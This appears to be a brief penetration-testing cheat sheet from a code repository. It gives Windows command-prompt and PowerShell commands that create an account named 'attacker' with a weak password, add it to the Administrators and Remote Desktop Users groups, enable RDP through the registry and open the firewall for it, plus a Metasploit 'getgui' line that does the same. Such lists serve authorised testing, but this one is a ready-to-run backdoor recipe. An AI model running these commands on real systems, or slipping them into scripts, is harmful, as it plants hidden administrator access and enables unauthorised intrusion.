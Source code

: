 # Adding Admin user + adding to RDP
### Command Prompt
```powershell
net user /add attacker password123
net localgroup administrators attacker /add
net localgroup "Remote Desktop Users" attacker /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

### Powershell
```powershell
net user /add attacker password123
net localgroup administrators attacker /add
net localgroup "Remote Desktop Users" attacker /add
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

# getgui (Metasploit)
```
run getgui -e -u atk -p atk
```

